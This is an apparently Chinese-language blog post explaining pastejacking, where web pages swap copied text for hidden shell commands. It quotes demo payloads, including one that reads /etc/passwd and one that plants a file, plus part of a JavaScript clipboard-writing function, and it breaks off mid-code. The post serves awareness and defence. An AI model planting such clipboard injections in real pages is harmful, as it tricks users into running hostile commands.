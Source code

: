# [Pastejacking](https://github.com/dxa4481/Pastejacking): 复制劫持

笔者也是最近看到了 Github 上的这篇关于复制劫持的文章，才打算把之前的网页剪贴板相关的东西整理下发出来。浏览器允许开发者能够自主地控制用户剪贴板，不过这样也就导致了部分恶意网页可能引导用户无意间执行恶意代码。最常见的就是譬如你浏览[某个教程网站](https://thejh.net/misc/website-terminal-copy-paste)，上面提示你输入以下命令：

```
git clone git://git.kernel.org/pub/scm/utils/kup/kup.git
```

作为资深懒货，我肯定选择复制粘贴啦，然后我就 Happy 的 Ctrl+C，然后我惊讶的发现自己的剪贴板里的内容变成了：

```
git clone /dev/null; clear; echo -n "Hello ";whoami|tr -d '\n';echo -e '!\nThat was a bad idea. Don'"'"'t copy code from websites you don'"'"'t trust!
Here'"'"'s the first line of your /etc/passwd: ';head -n1 /etc/passwd
git clone git://git.kernel.org/pub/scm/utils/kup/kup.git
```

这种攻击方法还是基于典型的 HTML/CSS 隐藏属性，在开发者工具中查看 DOM 树可以发现，在我们看不见的地方放了这些东西：

![](http://o6v08w541.bkt.clouddn.com/38945531-5423-436F-ACC5-A34033EF195A.png) 当我们选定复制的时候，其实是把那些隐藏的部分全部选上了。而我们这边要讨论的剪贴板劫持攻击跟这个的效果很类似，只不过剪贴板劫持攻击会更让你防不胜防一点，它可以在你任何一个点击事件后触发，并且可以控制将一些十六进制字符复制进去，有时候还能用来干掉你的 Vim，还是先看一个[例子](https://security.love/Pastejacking/index3.html): ![](http://7xkt0f.com1.z0.glb.clouddn.com/4FC011FA-C6BF-4260-B22A-0DA0127A7D13.png) 可以看出这次没有隐藏 DOM 元素，但是当我们复制了之后，得到的却是：

```
touch ~/.evil
clear
echo "not evil"
```

这次是因为它加了这么个控制脚本：

```
function copyTextToClipboard(text) {
              var textArea = document.createElement("textarea");


              //
              // *** This styling is an extra step which is likely not required. ***
              //
              // Why is it here? To ensure:
              // 1. the element is able to have focus and selection.
              // 2. if element was to flash render it has minimal visual impact.
              // 3. less flakyness with selection and copying which **might** occur if
              //    the textarea element is not visible.
              //
              // The likelihood is the element won't even render, not even a flash,
              // so some of these are just precautions. However in IE the element
              // is visible whilst the popup box asking the user for permission for
              // the web page to copy to the clipboard.
              //


              // Place in top-left corner of screen regardless of scroll position.
              textArea.style.position = 'fixed';
              textArea.style.top = 0;
              textArea.style.left = 0;


              // Ensure it has a small width and height. Setting to 1px / 1em
              // doesn't work as this gives a negative w/h on some browsers.
              textArea.style.width = '2em';
              textArea.style.height = '2em';


              // We don't need padding, reducing the size if it does flash render.
              textArea.style.padding = 0;

```